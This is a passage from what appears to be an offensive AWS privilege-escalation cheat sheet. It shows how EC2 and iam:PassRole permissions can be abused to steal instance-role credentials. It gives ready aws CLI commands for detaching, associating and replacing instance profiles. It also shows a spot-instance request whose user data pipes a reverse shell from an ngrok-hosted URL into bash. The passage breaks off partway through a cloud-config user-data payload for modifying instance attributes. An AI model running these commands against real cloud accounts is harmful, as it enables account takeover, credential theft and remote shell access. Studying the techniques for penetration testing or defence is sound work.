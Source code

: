 ### **`iam:PassRole`((** `ec2:AssociateIamInstanceProfile`& `ec2:DisassociateIamInstanceProfile`) || `ec2:ReplaceIamInstanceProfileAssociation`)

With these permissions it's possible to change the instance profile associated to an instance so if the attack had already access to an instance he will be able to steal credentials for more instance profile roles changing the one associated with it.

- If it **has an instance profile**, you can **remove** the instance profile (`ec2:DisassociateIamInstanceProfile`) and **associate** it

```bash
aws ec2 describe-iam-instance-profile-associations --filters Name=instance-id,Values=i-0d36d47ba15d7b4da
aws ec2 disassociate-iam-instance-profile --association-id <value>
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=<value> --instance-id <value>
```

- or **replace** the **instance profile** of the compromised instance (`ec2:ReplaceIamInstanceProfileAssociation`).

```bash
aws ec2 replace-iam-instance-profile-association --iam-instance-profile Name=<value> --association-id <value>
```

**Potential Impact:** Direct privesc to a different EC2 role (you need to have compromised a AWS EC2 instance and some extra permission or specific instance profile status).

### `ec2:RequestSpotInstances`,`iam:PassRole`

An attacker with the permissions **`ec2:RequestSpotInstances`and`iam:PassRole`** can **request** a **Spot Instance** with an **EC2 Role attached** and a **rev shell** in the **user data**.\
Once the instance is run, he can **steal the IAM role**.

```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 request-spot-instances \
   --instance-count 1 \
   --launch-specification "{\"IamInstanceProfile\":{\"Name\":\"EC2-CloudWatch-Agent-Role\"}, \"InstanceType\": \"t2.micro\", \"UserData\":\"$REV\", \"ImageId\": \"ami-0c1bc246476a5572b\"}"
```

### `ec2:ModifyInstanceAttribute`

An attacker with the **`ec2:ModifyInstanceAttribute`** can modify the instances attributes. Among them, he can **change the user data**, which implies that he can make the instance **run arbitrary data.** Which can be used to get a **rev shell to the EC2 instance**.

Note that the attributes can only be **modified while the instance is stopped**, so the **permissions** **`ec2:StopInstances`** and **`ec2:StartInstances`**.

```bash
TEXT='Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

```